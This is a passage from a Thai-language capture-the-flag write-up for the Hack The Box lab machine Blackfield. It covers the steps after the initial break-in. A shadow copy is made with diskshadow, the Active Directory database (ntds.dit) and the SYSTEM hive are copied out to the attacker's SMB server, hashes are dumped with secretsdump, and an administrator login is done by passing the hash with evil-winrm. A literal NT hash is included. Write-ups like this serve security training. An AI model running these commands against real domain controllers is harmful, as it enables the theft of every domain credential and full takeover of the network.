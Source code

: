 
```bash
## On Kali 
sudo apt install dos2unix
unix2dos vss.dsh
upload vss.dsh c:\programdata\vss.dsh

## On Target Windows 
diskshadow /s c:\programdata\vss.dsh
```
![[Challenge/HTB Challenge/Blackfield/IMG/011.png]]

จากนั้นเราจะเปิด server smb สำหรับรับข้อมูลจากเป้าหมาย 

```bash
## Kali Linux
impacket-smbserver s . -smb2support -username df -password df 
```

ทำการเชื่อมต่อกลับไปที่ kali 
```powershell
# Windows Target
*Evil-WinRM* PS C:\programdata> net use \\10.10.14.34\s /u:df df
The command completed successfully.


*Evil-WinRM* PS C:\programdata> Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit \\10.10.14.34\s\ntds.dit

*Evil-WinRM* PS C:\programdata>Copy-FileSeBackupPrivilege z:\Windows\System32\config\SYSTEM \\10.10.14.34\s\system.hiv

*Evil-WinRM* PS C:\programdata> reg.exe save hklm\system \\10.10.14.34\system
```

## Shell as administrator

```bash
impacket-secretsdump -system system.hiv -ntds ntds.dit LOCAL
evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
```